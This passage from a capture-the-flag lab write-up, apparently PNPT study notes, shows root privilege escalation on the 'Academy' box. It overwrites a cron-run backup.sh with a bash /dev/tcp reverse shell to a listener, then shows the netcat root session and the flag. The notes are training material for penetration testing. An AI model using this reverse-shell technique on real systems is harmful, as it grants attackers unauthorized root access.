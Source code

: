 Once it's served, we can `cd` into `/tmp` where `backup.zip` is and use `wget` to download it on the target machine. Now, change the permissions of `pspy64` so we can execute it using `chmod +x pspy64`. Now we can run it:
```bash
./psypy64
#####
## PLACEHOLDER
##
##
##
```
Scanning the output, we can see that `backup.sh` is being ran every minute.
### 2nd RevShell
Now that we've verified that `backup.sh` is being executed, we can manipulate that to get another shell, but this time *with root permissions and access*.
#### Our bash script:
A simple script to achieve a shell using [bash](coding/languages/bash.md) is the following:
```bash
!#/bin/bash

bash -i >& /dev/tcp/10.0.2.4/44445 0>&1
```
Use `nano` to edit `backup.sh`, get rid of the original code and replace it with this shell code. *Before saving the file* make sure you have another instance of [netcat](cybersecurity/tools/exploitation/netcat.md) up and listening to the correct port.

Once you save the file, it should get executed w/i the next 2 minutes, and on your listener you should see:
```bash
nc -lvnp 44445
listening on [any] 44445 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 34634
bash: cannot set terminal process group (18009): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~#          # <----------- 
```
## Flag
Once we're in as root, all we have to do is observe our surroundings:
```bash
root@academy:~# ls
ls
flag.txt
root@academy:~# cat flag.txt
cat flag.txt  
Congratz you rooted this box !  
Looks like this CMS isn't so secure...  
I hope you enjoyed it.   
If you had any issue please let us know in the course discord. 
Happy hacking !                                                                                   
root@academy:~#    
```
## Notes on other avenues:
Having tried this box *without watching the walkthrough first*, there are some other interesting avenues one could try. The walkthrough above is a combo of my own investigations + the walkthrough supplied by TCM.
### mysql
Once you've SSH'd into the target as Grimmie, you can access the [mysql](CLI-tools/linux/mysql.md) database using the same password.
![](nested-repos/PNPT-study-guide/PNPT-pics/academy-6.png)
![](/PNPT-pics/academy-6.png)